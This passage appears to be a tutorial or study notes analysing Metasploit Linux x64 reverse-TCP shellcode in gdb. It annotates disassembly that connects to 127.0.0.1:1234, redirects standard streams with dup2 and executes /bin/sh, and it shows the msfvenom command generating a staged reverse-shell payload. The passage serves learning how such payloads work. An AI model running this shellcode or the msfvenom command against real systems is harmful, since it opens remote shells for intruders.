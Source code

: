     ; little endian again: 1234
    0x400086:    movabs rcx,0x100007fd2040002
    0x400090:    push   rcx
    0x400091:    mov    rsi,rsp
    ; as said, rds will hold address length, which is 0x10
    0x400094:    push   0x10
    0x400096:    pop    rdx
    ; and the real syscall sys_connect
    0x400097:    push   0x2a
    0x400099:    pop    rax
    0x40009a:    syscall

let's b *0x40009a to easily jump over already analyzed code and c  
following syscall is quite small, analyze line by line:

    ; put 3 in rsi and decrement: like push 0x2
    0x40009c                  push   0x3
    0x40009e                  pop    rsi
    0x40009f                  dec    rsi
    ; place 0x21 in rax, which is sys_dup2 syscall, and do the call for rsi 2 (STDERR)
    0x4000a2                  push   0x21
    0x4000a4                  pop    rax
    0x4000a5                  syscall
    ; this jump occurs, acting as loop by creating the needed fd also for STDOUT and STDIN
    0x4000a7                  jne    0x40009f

after that, we will x/20i 0x4000a9 to see following 20 instructions, that i'll analyze line by line:

    ; 0x3b is our beloved sys_execve, when she's in rax we know something
    ; good (or bad) will happen
    0x4000a9:    push   0x3b
    0x4000ab:    pop    rax
    ; zero stuff again
    0x4000ac:    cdq
    ; move /bin/sh to rbx, that holds binary that will be executed
    0x4000ad:    movabs rbx,0x68732f6e69622f
    0x4000b7:    push   rbx
    ; and place a pointer to rdi
    0x4000b8:    mov    rdi,rsp
    0x4000bb:    push   rdx
    0x4000bc:    push   rdi
    ; prepare arguments, as already discussed for 05-exec
    0x4000bd:    mov    rsi,rsp
    ; and do the call
    0x4000c0:    syscall

reverse staged
==============
payload generated with: msfvenom -p linux/x64/shell/reverse_tcp LHOST=127.0.0.1 LPORT=1234 -f elf > 05-reversetcp_staged  
i expect this payload to be more interesting to analyze because of the stager. let's go:

    gdb ./05-reversetcp_staged
    starti
